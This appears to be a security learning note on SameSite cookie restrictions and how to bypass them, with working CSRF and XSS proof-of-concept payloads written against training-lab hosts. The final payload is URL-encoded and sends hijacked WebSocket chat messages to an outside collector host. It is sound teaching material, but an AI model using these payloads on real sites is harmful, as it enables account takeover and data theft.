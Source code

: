 # SameSite 101

>[!question] What is the SameSite attirbute for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

They provide partial protections against various cross-site attacks, including:
- [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)
- Cross-Site leaks
- [CORS based attacks](CORS%20based%20attacks.md)

>[!important] Domain =/= site
>Important distinction as it means that any vulnerability enabling arbitrary JavaScript execution can be abused to **bypass site-based defenses** on other domains belonging to the same site.
>
>This allows other kind of attacks, like:
>- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md)
>- [Cookie Tossing](Cookie%20Tossing.md)
>- [Cookie Eviction](Cookie%20Eviction.md)


In the context of SameSite cookie restrictions, a **site** is defined as a combination of **scheme** + the **top-level domain** + **one additional level of the domain**:
![|900](attachments/Site-example.png)
- `http://app.example.com` and `https://app.example.com` are considered two distinct sites.
- `http://app.example.com` and `http://app2.example.com` are considered the **same site** (because 3rd level domain and below are not considered)

A **site** is also different by an **origin** (ref. [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) and [Origins vs Sites](../../Readwise/Articles/jakearchibald.com%20-%20How%20to%20Win%20at%20CORS.md#Origins%20vs%20Sites) for further information):

| Request from            | Request to                   | Same-site?            | Same-origin?               |
| ----------------------- | ---------------------------- | --------------------- | -------------------------- |
| https://example.com     | https://example.com          | Yes                   | Yes                        |
| https://app.example.com | https://intranet.example.com | Yes                   | No: mismatched domain name |
| https://example.com     | https://example.com:8080     | Yes                   | No: mismatched port        |
| https://example.com     | https://example.co.uk        | No: mismatched eTLD   | No: mismatched domain name |
| https://example.com     | http://example.com           | No: mismatched scheme | No: mismatched scheme      |

SameSite can have three different values:
- **Strict**: browsers will not send the cookie in any cross-site requests.
- **Lax**: browsers will send the cookie in cross-site requests, but only if **the request uses the `GET` method** and it **resulted from a top-level navigation** by the user, such as clicking on a link.
- **None**: browsers will send this cookie in all requests to the site that issued it, even those that were triggered by completely unrelated third-party sites.
  >[!warning]
  >When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

# Common bypasses and flaws

## Bypass SameSite Lax restrictions using GET requests

Sometimes server aren't always fussy about whether they receive a GET or POST request to a given endpoint. In this case it's possible to **transform a `POST` request into a `GET` request** and bypass the Lax restriction.

  >[!note]
  >As long as the request involves a **top-level navigation**, the browser will still include the victim's session cookie. Form submissions do not work!
  
  ```html
  <script> document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000'; </script>
  ```
  Even if an ordinary `GET` request isn't allowed, **some frameworks provide ways of overriding the method** specified in the request line:
  ```html
  <form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
  ```

## Bypass SameSite Lax restrictions with newly issued cookies

Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions. To avoid breaking single sign-on mechanisms, **Chrome doesn't actually enforce these restrictions at all for the first 120 seconds after a cookie is set**. It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');
    // open a popup to force the cookie refresh
    window.onclick = () => {
        window.open('https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account')
    }</script>
    <form action="https://0a77007f04d29645c20fc03300cd0049.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass SameSite restrictions using on-site gadgets

If a cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests. However, you may be able to get around this limitation if you can **find a gadget** that results in a secondary request within the same site, like an [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or an [Open Redirection](Open%20Redirection.md) from the DOM.

  >[!example]
>Javascript file performing a dom redirection, called from the page `/post/comment/confirmation?postId=2` with the following line `redirectOnConfirmation('/post');`:
>
  >```js
>redirectOnConfirmation = (blogPath) => {
>    setTimeout(() => {
>        const url = new URL(window.location);
>        const postId = url.searchParams.get("postId");
>        window.location = blogPath + '/' + postId;
>    }, 3000);
>}
>```
>Exploit:
>```html
><script>document.location="https://0ab7007804429578c1546dc7002c0017.web-security-academy.net/post/comment/confirmation?postId=../../../../../../my-account/change-email?email=test%40test.com%26submit=1";</script>
>```
  
   >[!warning]
  Note that the equivalent attack is not possible with server-side redirects. In this case, browsers recognize that the request to follow the redirect resulted from a cross-site request initially, so they still apply the appropriate cookie restrictions.

## Bypass SameSite restrictions via vulnerable sibling domains

It's essential to keep in mind that a request can still be same-site even if it's issued cross-origin. Vulnerabilities that enable you to elicit an arbitrary secondary request, like [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or subdomain takeover, can compromise site-based defenses completely, exposing all of the site's domains to cross-site attacks, including:
- [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)) 
- [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) 
- [Cookie Tossing](Cookie%20Tossing.md)
- [Cookie Eviction](Cookie%20Eviction.md)


  >[!example]
  >Session cookie has the SameSite attribute set to Strict: `Set-Cookie: session=9zoajIpR9fdqvXj3IiNbzNHQhC7q8yCo; Secure; HttpOnly; SameSite=Strict`
  >XSS gadget on a different domain from the same site of the vulnerable application:
  >![CSRF2](../../zzz_res/attachments/CSRF2.png)
  >Final PoC to leak victim's chat and perform [Cross-site WebSockets hijacking (CSWSH)](WebSockets.md#Cross-site%20WebSockets%20hijacking%20(CSWSH)):
  >```html
  ><script>document.location="https://cms-0a8b0080049320f7c0df54a800d500f6.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%38%62%30%30%38%30%30%34%39%33%32%30%66%37%63%30%64%66%35%34%61%38%30%30%64%35%30%30%66%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%7d%3b%0a%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%37%79%36%67%30%35%33%73%71%67%7a%30%36%7a%66%31%74%36%61%6d%75%34%64%37%71%79%77%70%6b%68%38%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=pippo";</script>
>```
